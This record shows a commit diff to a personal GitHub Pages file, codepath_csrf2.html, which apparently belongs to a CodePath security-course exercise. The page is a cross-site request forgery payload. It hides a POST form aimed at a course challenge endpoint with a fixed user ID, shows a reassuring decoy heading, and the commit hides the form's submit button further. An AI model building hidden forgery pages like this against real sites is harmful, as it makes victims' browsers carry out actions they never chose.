

Before and after one commit to ERDJD97/ERDJD97.github.io, a plain HTML site: page codepath_csrf2.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update codepath_csrf2.html

```diff
--- a/codepath_csrf2.html
+++ b/codepath_csrf2.html
@@ -2,11 +2,11 @@
   <body>
     <h2>Hello... there is nothing bad going on here.  Trust me!</h2>
 
-    <div style="hidden">
+    <div style="visibility: hidden">
       Self-submitting form
     <form name="csrfForm" action="https://security.codepath.com/user/csrfchallengetwo/plusplus" method="POST" target="myframe">
        <input type="hidden" name="userId" value="a259e0f631adee2f4f5e41f5362d51642c01ce72" />
-       <input type="submit"/>
+       <input type="submit" style="visibility:hidden" />
     </form>
     </div>
     <iframe name="myframe" />
```
